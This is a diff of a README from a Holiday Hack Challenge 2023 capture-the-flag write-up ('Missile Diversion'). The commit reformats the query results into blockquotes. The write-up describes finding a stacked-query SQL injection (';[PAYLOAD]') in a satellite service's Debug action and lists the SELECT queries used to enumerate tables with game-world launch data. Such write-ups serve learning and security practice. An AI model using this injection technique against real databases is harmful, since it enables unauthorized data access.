

Before and after one commit to LamonatoAndrea/HolidayHackChallenge2023_writeup, a Markdown page: 22 - Missile Diversion/README.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
Sun Jan 28 01:57:15 PM CET 2024

```diff
--- a/22 - Missile Diversion/README.md
+++ b/22 - Missile Diversion/README.md
@@ -7,24 +7,34 @@ Thwart Jack's evil plan by re-aiming his missile at the Sun.
 Re-utilizing the same environment from before, I used the `Consumer Test Tool` to connect to `maltcp://10.1.1.1:1024/nanosat-mo-supervisor-Directory`, start the `missile-targeting-system`, and then connecting to `maltcp://10.1.1.1:1026/missile-targeting-system-Directory`. This exposes the `Debug` Action Service along with 4 Parameter Services: `PointingMode`, returning the current pointing mode, `X` and `Y`, returning the coordinates, and `Debug`, returning the last output from the `Debug` Action Service. Trying to set `X`, `Y` and `PointingMode` was not giving any result. I then tried submitting the `Debug` Action without any input and the `Debug` Parameter Service returned the string `VERSION(): 11.2.2-MariaDB-1:11.2.2+maria~ubu2204`, clearly identifying the interaction with a DB. I tested the action service for common SQL injection by using the attribute value to inject the payload, eventually finding `;[PAYLOAD]` as a resilient injection pattern. I then enumerated the tables in the database and their content
 
 > **Query**: `; SELECT * FROM pointing_mode_to_str`
+> **Results**:
 > id: 1 \| numerical_mode: 0 \| str_mode: Earth Point Mode \| str_desc: When pointing_mode is 0, targeting system applies the target_coordinates to earth.
 > id: 2 \| numerical_mode: 1 \| str_mode: Sun Point Mode \| str_desc: When pointing_mode is 1, targeting system points at the sun, ignoring the coordinates. \|
-#### **Query**: `; SELECT * FROM user_variables`
-java.sql.SQLSyntaxErrorException: (conn-3488) SELECT command denied to user 'targeter @'172.18.0.4' for table missile_targeting system. 'user_variables
-#### **Query**: `; SELECT * FROM messaging`
-id: 1 \| msg_type: RedAlphaMsg \| msg_data: RONCTTLA \|
-id: 2 \| msg_type: MsgAuth \| msg_data: 220040DL \| 11.2.2-MariaDB-1:11.2.2+maria-ubu2204 \|
-id: 3 \| msg_type: LaunchCode \| msg_data: DLG2209TVX \|
-id: 4 \| msg_type: LaunchOrder \| msg_data: CONFIRMED \|
-id: 5 \| msg_type: TargetSelection \| msg_data: CONFIRMED \|
-id: 6 \| msg_type: TimeOnTargetSequence \| msg_data: COMPLETE \|
-id: 7 \| msg_type: YieldSelection \| msg_data: COMPLETE \|
-id: 8 \| msg_type: MissileDownlink \| msg_data: ONLINE \|
-id: 9 \| msg_type: TargetDownlinked \| msg_data: FALSE \|
-#### **Query**: `; SELECT * FROM pointing_mode`
-id: 1 \| numerical_mode: 0 \|
-#### **Query**: `; SELECT * FROM target_coordinates`
-id: 1 lat: 1.14514 \| Ing: -145.262 \|
-#### **Query**: `; SELECT * FROM satellite_query`
-VERSION(): 11.2.2-MariaDB-1:11.2.2+maria~ubu2204 |
-jid: 1 | object: `........sr..SatelliteQueryFileFolderUtility.......................Z..isQueryZ..isUpdateL..pathOrStatementt..Ljava/lang/String;xp..t.)/opt/SatelliteQueryFileFolderUtility.java` | results: `import java.io.Serializable; /* Output removed to shorten report */ public class SatelliteQueryFileFolderUtility implements Serializable { /* Output removed to shorten report */`
+
+> **Query**: `; SELECT * FROM user_variables`
+> **Results**:
+> java.sql.SQLSyntaxErrorException: (conn-3488) SELECT command denied to user 'targeter @'172.18.0.4' for table missile_targeting system. 'user_variables
+
+> **Query**: `; SELECT * FROM messaging`
+> **Results**:
+> id: 1 \| msg_type: RedAlphaMsg \| msg_data: RONCTTLA \|
+> id: 2 \| msg_type: MsgAuth \| msg_data: 220040DL \| 11.2.2-MariaDB-1:11.2.2+maria-ubu2204 \|
+> id: 3 \| msg_type: LaunchCode \| msg_data: DLG2209TVX \|
+> id: 4 \| msg_type: LaunchOrder \| msg_data: CONFIRMED \|
+> id: 5 \| msg_type: TargetSelection \| msg_data: CONFIRMED \|
+> id: 6 \| msg_type: TimeOnTargetSequence \| msg_data: COMPLETE \|
+> id: 7 \| msg_type: YieldSelection \| msg_data: COMPLETE \|
+> id: 8 \| msg_type: MissileDownlink \| msg_data: ONLINE \|
+> id: 9 \| msg_type: TargetDownlinked \| msg_data: FALSE \|
+
+> **Query**: `; SELECT * FROM pointing_mode`
+> **Results**:
+> id: 1 \| numerical_mode: 0 \|
+
+> **Query**: `; SELECT * FROM target_coordinates`
+> **Results**:
+> id: 1 lat: 1.14514 \| Ing: -145.262 \|
+
+> **Query**: `; SELECT * FROM satellite_query`
+> **Results**:
+> jid: 1 | object: `........sr..SatelliteQueryFileFolderUtility.......................Z..isQueryZ..isUpdateL..pathOrStatementt..Ljava/lang/String;xp..t.)/opt/SatelliteQueryFileFolderUtility.java` | results: `import java.io.Serializable; /* Output removed to shorten report */ public class SatelliteQueryFileFolderUtility implements Serializable { /* Output removed to shorten report */`
```
